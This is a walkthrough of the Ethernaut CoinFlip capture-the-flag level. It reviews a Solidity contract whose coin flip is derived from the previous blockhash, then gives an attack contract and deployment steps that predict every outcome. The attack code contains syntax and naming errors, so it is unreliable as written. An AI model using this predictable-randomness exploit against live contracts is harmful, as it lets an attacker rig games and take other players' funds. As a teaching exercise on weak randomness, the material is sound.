 # CoinFlip

Welcome to my Ethernaut solution series!
Today we will discuss the 3rd problem called CoinFlip.
This smart contract is a coin flipping game where the player needs to get a winning streak by guessing the outcome of a coin. 

The goal of this challenge is:
1. Guess the correct outcome 10 times in a row

Let's take a look of the contract code:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
## Code review

### State Variables
We have three variables declared for the contract. 
- consecutiveWins is the public uint variable holding the wins in a row for the player. We need to somehow increment this value to 10 to win this game.
- FACTOR is the variable holding a constant value which is used as a part of the process of creating entropy.
- lastHash is a variable which stores the value of a hash of the last block of our Rinkby blockchain. It is a state variable which is used to compare if the privious call to this function had the same hash value. We will discuss this variable in detail later.

### Constructor
- The variable consecutiveWins needs to be initialised to Zero for every instance of the game.

### Functions
- We just have one function in this problem. The flip function takes in a parameter which is a bool. This is the guess provided by the player to play the game and predict the outcome as heads or tails mapped to True or False.
- The function also returns a bool which specifies that the guess by the player was correct or not.
The first part 
- lets look at line 18:
```solidity
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```
- Here block.number will give us the current block number, but as this block isnt mined yet, the contract cannot use it to create a hash. So we take the last mined block and compute a hash of that block number.
- Then we convert it to uint256 and store it in the variable blockValue. This variable is not needed in all instances, hence, it is not a state variable.
- Now the state variable lastHash is compared with blockValue to check if the last blockValue variable value is used again. The contract need to have a unique value everytime the function is called.

- on line 25, the value stored in the local variable blockValue is divided by the long number in the variable FACTOR. This action is done to increase the randomness. 
```solidity
uint256 coinFlip = blockValue.div(FACTOR);
```
- The value of coinFlip is compared to 1. If it matches then the variable side is True else False.
- Next it compares the the player's guess with the variable side. We need to match this variable 10 times in a row.

## Vulnerability

- The flawed way of using randomness is using globally accessible variables for seeds like, timestamp, gasprice, difficulty, etc. This means that anybody can see these variables. Then anybody can copy the same code from the contract and generate the same random number. 
- In our case, the global variable used is blockhash(blockNumber). This gives the hash of the given block. In the code, blocknumber of the last mined block is used.
- The code also divides the hash with the constant FACTOR. Again this is a publicly accessible number.

## How to avoid the vulnerability

## Solution
The hack for this problem is basically:
Write a new contract using the same globally accessible variables and call the public function flip from the CoinFlip contract. In the contract we will use the same variable value for FACTOR and access the globally available variables and replicate the coin's side to beat the game.

### Attack script:
```solidity
Contract CoinFlipAttack {
	CoinFlip public victimContract;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

	constructor(address _victimContractAddr) public {
		victimContract = coinFlip(_victimContractAddress);
	}
	
	function flip public returns (bool) {
		uint256 blockValue = uint256(blockhash(block.number - 1));
		uint256 coinFlip = uint256(blockValue/FACTOR);
		bool side = coinFlip == 1 ? true : false;

		victimContract.flip(side);
	}
}
```

### Code Review

- In the constructor we initialize the public variable victimContract with the instance of the object of the vulnerable contract we want to attack by passing the address of the instance of the Ethernaut contract. Note: While creating the object, we are not using the "new" keyword as we are not creating a new instance of the contract, but trying to access the already existing instance of the contract. 
- In the flip function we perform 2 steps: retrieve the publically accessible block number of the blockchain and divide the value by FACTOR.
- We check the value of the coinFlip variable and assign true or false value to our side variable.
- Then the flip function of the vulnerable contract is called using the instance earlier initialized and side variable is passed as an argument. 

## Attack execution

- Lets get the contract instance address of CoinFlip.sol from the Ethernaut console page first using the below command.
```solidity
await contract.address
```
- Compile and deploy both solidity codes, Coinflip.sol and CoinFlipAttack.sol on Remix IDE. while deploying CoinFlipAttack.sol, use the address retrieved in the above step.
- Once CoinFlipAttack is deployed, you will be able to see a flip function in the IDE. You will have to trigger that function. 
- This will generate the value for "side" variable same as that is created in the CoinFlip contract as the seed values used to create the random number.
- This side variable value is then sent to the flip function of CoinFlip function. This will execute the condition `if (side == _guess)` in the flip function and as we have the same guess as the side, we are always going to win!

## Conclusion
A smart contract should not use publically accessible numbers as seed to generate a random number. We could easily re-create the random number and provide a guess to the coin flop 100% of the time.